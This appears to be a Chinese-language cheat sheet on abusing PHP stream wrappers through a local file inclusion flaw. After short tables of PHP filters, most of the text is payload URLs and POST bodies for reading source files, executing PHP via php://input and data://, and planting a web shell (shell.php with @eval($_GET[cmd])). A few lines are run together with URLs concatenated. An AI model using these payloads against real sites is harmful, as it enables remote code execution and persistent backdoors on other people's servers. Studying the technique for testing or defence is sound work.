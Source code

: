

| 转换过滤器 | 作用 |
| --- | --- |
| convert.base64-encode & convert.base64-decode | 等同于base64_encode()和base64_decode()，base64编码解码 |
| convert.quoted-printable-encode & convert.quoted-printable-decode | quoted-printable 字符串与 8-bit 字符串编码解码 |


| 压缩过滤器 | 作用 |
| --- | --- |
| zlib.deflate & zlib.inflate | 在本地文件系统中创建 gzip 兼容文件的方法，但不产生命令行工具如 gzip的头和尾信息。只是压缩和解压数据流中的有效载荷部分。 |
| bzip2.compress & bzip2.decompress | 同上，在本地文件系统中创建 bz2 兼容文件的方法。 |


| 加密过滤器 | 作用 |
| --- | --- |
| mcrypt.* | libmcrypt 对称加密算法 |
| mdecrypt.* | libmcrypt 对称解密算法 |


**读取文件源码用法**
```bash
php://filter/read=convert.base64-encode/resource=[文件名]
http://127.0.0.1/include.php?file=php://filter/read=convert.base64-encode/resource=phpinfo.php
```
**执行php代码用法**
```bash
php://input + [POST DATA]
http://127.0.0.1/include.php?file=php://input
[POST DATA部分]
<?php phpinfo(); ?>
```
```bash
http://127.0.0.1/include.php?file=php://input
[POST DATA部分]
<?php fputs(fopen('shell.php','w'),'<?php @eval($_GET[cmd]); ?>'); ?>
```
**phar://、zip://、bzip2://、zlib://**<br />用于读取压缩文件，zip:// 、 bzip2:// 、 zlib:// 均属于压缩流，可以访问压缩文件中的子文件，更重要的是不需要指定后缀名，可修改为任意后缀：jpg png gif xxx 等等。<br />**用法示例**
```bash
1、zip://[压缩文件绝对路径]%23[压缩文件内的子文件名]（#编码为%23）
http://127.0.0.1/include.php?file=zip://E:\phpStudy\PHPTutorial\WWW\phpinfo.jpg%23phpinfo.txt
 
2、compress.bzip2://file.bz2
http://127.0.0.1/include.php?file=compress.bzip2://D:/soft/phpStudy/WWW/file.jpghttp://127.0.0.1/include.php?file=compress.bzip2://./file.jpg
 
3、compress.zlib://file.gz
http://127.0.0.1/include.php?file=compress.zlib://D:/soft/phpStudy/WWW/file.jpghttp://127.0.0.1/include.php?file=compress.zlib://./file.jpg4、phar://

```
**data://**<br />数据流封装器，以传递相应格式的数据。通常可以用来执行PHP代码。
```bash
1、data://text/plain,
http://127.0.0.1/include.php?file=data://text/plain,<?php%20phpinfo();?>
 
2、data://text/plain;base64,
http://127.0.0.1/include.php?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b
```
